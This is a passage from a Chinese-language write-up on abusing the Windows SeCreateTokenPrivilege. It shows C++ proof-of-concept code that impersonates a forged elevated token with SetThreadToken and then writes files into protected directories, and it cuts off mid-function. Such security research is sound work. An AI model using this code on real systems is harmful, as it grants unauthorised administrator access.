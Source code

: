```c++

	return status;
}
```

## Impersonate The Elevated Token

接着，会调用 `SetThreadToken()` 函数将当前线程的令牌替换为新生成的令牌，如下所示。

```c++
hThread = GetCurrentThread();

if (!SetThreadToken(&hThread, pElevatedToken))
{
	wprintf(L"[-] SetThreadToken Error: [%u].\n", GetLastError());
	return 0;
}
wprintf(L"\n[*] Successfully impersonated the elevated token.\n");
```

到这里，我们就已经获取了本地管理员权限了，写入受保护目录、并写入/覆盖注册表项等特权操作都是轻而易举。

## Write To Protected Directory

在我的 POC 中，我编写了 `ExploitSeCreateTokenPrivilege()` 函数，用于将指定文件写入受保护目录，如下所示。

```c++
BOOL ExploitSeCreateTokenPrivilege(LPCWSTR sourceFile, LPCWSTR destFile)
{
	BOOL status = FALSE;
	HANDLE hSource, hDestination;
	char buffer[SIZE + 1];
	DWORD dwBytesRead, dwBytesWrite;

	if (sourceFile && destFile)
	{
		// Open source file.
		hSource = CreateFileW(sourceFile, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
		if (hSource == INVALID_HANDLE_VALUE)
		{
			wprintf(L"[-] Could not open source file by CreateFileW: [%u].\n", GetLastError());
			return status;
		}
		// Create destination file.
		hDestination = CreateFileW(destFile, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
		if (hDestination == INVALID_HANDLE_VALUE)
		{
			wprintf(L"[-] Could not create destination file by CreateFileW: [%u].\n", GetLastError());
			return status;
		}
		// Read from source file.
		if (!ReadFile(hSource, buffer, SIZE, &dwBytesRead, NULL))
		{
			wprintf(L"[-] ReadFile Error: [%u].\n", GetLastError());
			return status;
		}
		wprintf(L"[*] Read bytes from %ws: %d\n", sourceFile, dwBytesRead);
		// Write to destination file.
		if (!WriteFile(hDestination, buffer, dwBytesRead, &dwBytesWrite, NULL))
		{
			wprintf(L"[-] WriteFile Error: [%u].\n", GetLastError());
```
